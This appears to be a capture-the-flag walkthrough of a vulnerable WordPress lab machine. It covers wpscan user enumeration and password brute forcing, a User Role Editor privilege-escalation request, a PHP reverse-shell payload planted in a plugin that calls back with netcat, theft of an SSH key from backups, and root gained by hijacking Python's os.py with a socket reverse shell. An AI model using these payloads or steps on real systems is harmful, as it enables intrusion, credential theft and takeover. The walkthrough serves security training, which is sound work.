 # recon
let start with and `jack.thm` to our `/etc/hosts` by runing `echo '$IP jack.tml' >> /etc/hosts`. now nmap !!

2 open ports:
- 22:ssh
- 80:http
then I gobuster for directory brute forcing using dirbuster big.txt. After I executed gobuster, I visit the web site and try to enumerate it in happy path way while gobuster is running.

I always start clicking around try to find use full info. At this point you should we have 1 username which is `jack` who posting stuff on his block. Thereafter I check `robots.txt`, why? why not lol. Always check for it, 
```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
```
Muahahaha now we know that the blog is run by wordpress. there is a powerful tool call wpscan, read more about it [here](https://wpscan.org/).


The Idea is we will use wpscan to enumerate username and the we can brute force the password using wordlist on our kali. to enumerate username, run:
```console
kali@kali:~$ wpscan --url http://jack.thm --enumerate u
i] User(s) Identified:

[+] jack
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://jack.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] wendy
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] danny
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

so we got 3 username...
- jack
- wendy
- danny
now let brute force to get password. we will not use *rockyou.txt* coz it is to huge. Note that we have 3 users which mean the time to crack the password will take triple longer coz each password will be send 3 times. 1 time to each user. so there is around 1m password in *rockyou.txt* -> 3m password to test. RIP then. 

The plan is we will use `/usr/share/wordlists/fasttrack.txt` instead and let hope that this works. otherwise we have 3m+ password to go thru.
```console
$ wpscan --url http://jack.thm --passwords /usr/share/wordlists/fasttrack.txt --usernames jack,wendy,danny
.
.
[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - wendy / ch________                                                                        
Trying danny / starwars Time: 00:01:57 <===========================> (646 / 646) 100.00% Time: 00:01:57
.
```

BINGO ! we got the password, now visit /wp-admin/ and log into wordpress admin page. and let enumerate it a bit:

note that wendy are only a normalt user. After diging for some exloit, I found this 
[WordPress Plugin User Role Editor < 4.25 - Privilege Escalation](https://www.exploit-db.com/exploits/44595). try to understand it pls

now launch burp suite, go to profile and try to update ur proflie. capture the post request and add `$ure_other_roles=administrator` this will allow to escalate to admin user.


now wendy should have admin role. Note that there are plug in on the site. The plan is we will use plug in to spawn a reverse shell on the server.


# foot hold
select on of the plug in template that you want and add reverse shell in the php template:
```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash 2>&1|nc <kali ip> 6969 >/tmp/f") ?>
```
back to kali, execute netcat and wait for connection. now go back to the main plug in page an activate the plug in that you edited. you should get a reverse shell right aways


let spawn tty sheöö
```conole
python -c 'import pty; pty.spawn("/bin/sh")'
ls
reminder.txt  user.txt
$ cat user.txt
cat user.txt
$ cat reminder.txt
cat reminder.txt

Please read the memo on linux file permissions, last time your backups almost got us hacked! Jack will hear about this when he gets back.
```
seem like there is a clue here, let go check `/var/backups`
```console
$ cd /var/backups
cd /var/backups
$ ls -la
ls -la
total 776
drwxr-xr-x  2 root root     4096 Jan 10  2020 .
drwxr-xr-x 14 root root     4096 Jan  9  2020 ..
-rw-r--r--  1 root root    40960 Jan  9  2020 alternatives.tar.0
-rw-r--r--  1 root root     9931 Jan  9  2020 apt.extended_states.0
-rw-r--r--  1 root root      713 Jan  8  2020 apt.extended_states.1.gz
-rw-r--r--  1 root root       11 Jan  8  2020 dpkg.arch.0
-rw-r--r--  1 root root       43 Jan  8  2020 dpkg.arch.1.gz
-rw-r--r--  1 root root      437 Jan  8  2020 dpkg.diversions.0
-rw-r--r--  1 root root      202 Jan  8  2020 dpkg.diversions.1.gz
-rw-r--r--  1 root root      207 Jan  9  2020 dpkg.statoverride.0
-rw-r--r--  1 root root      129 Jan  8  2020 dpkg.statoverride.1.gz
-rw-r--r--  1 root root   552673 Jan  9  2020 dpkg.status.0
-rw-r--r--  1 root root   129487 Jan  8  2020 dpkg.status.1.gz
-rw-------  1 root root      802 Jan  9  2020 group.bak
-rw-------  1 root shadow    672 Jan  9  2020 gshadow.bak
-rwxrwxrwx  1 root root     1675 Jan 10  2020 id_rsa
-rw-------  1 root root     1626 Jan  9  2020 passwd.bak
-rw-------  1 root shadow    969 Jan  9  2020 shadow.bak
```
Bingo there is a id_rsa key here, I assume that is jack ssh key. let grap it and ssh to the victim server! and start enumerate more


# root
```console
jack@jack$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1001(family)
```
something worth notice here is jack is a member of family groub.


We will use a tool call `pspy` which allow us to see commands run by other users, cron jobs, etc. as they execute. for more info check this repo [pspy](https://github.com/DominicBreuker/pspy). if you dont have it, clone it and save it in a good place. You will need this script again in the future.


tranfer `pspy` to the victim server, execute it and wait.  here is what you should se
```
2020/08/06 18:18:01 CMD: UID=0    PID=2054   | /usr/bin/python /opt/statuscheck/checker.py 
2020/08/06 18:18:01 CMD: UID=0    PID=2053   | /bin/sh -c /usr/bin/python /opt/statuscheck/checker.py
```
after a while you will see that the server execute `/opt/statuscheck/checker.py` again and again. we can hijact the `checker.py` and use it to spawn our shell. But said ly we dont have premission to edit it. but let see what `checker.py` does
```console
jack@jack:~$ cat /opt/statuscheck/checker.py 
import os

os.system("/usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log")
```
okey as you can see here, it `import os` which is using a libary/module call os. we can can try to hijact the module instead ! let check if we have premission to edit it.
```console
jack@jack:~$ find / -name os.py 2> /dev/null
/usr/lib/python3.5/os.py
/usr/lib/python2.7/os.py
```
since `checker.py` is execute with python2.7, we are only intressed on `/usr/lib/python2.7/os.py`
```console
jack@jack:~$ ls -la /usr/lib/python2.7/os.py
-rw-rw-r-x 1 root family 25908 Jan 10  2020 /usr/lib/python2.7/os.py
```
BING GO! as we discussed, Jack is a member of family group and we have premission to read/write `os.py` now let as our reverse shell to the end of `os.py`

```py
import socket
import pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("kali ip",9008))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```
now on ur kali
```console
kali@kali:~/script$ nc -nlvp 9696
listening on [any] 9696 ...
connect to [10.11.14.220] from (UNKNOWN) [10.10.93.28] 40908
root@jack:~# ls
ls
root.txt
root@jack:~# cat root.txt
cat root.txt
````
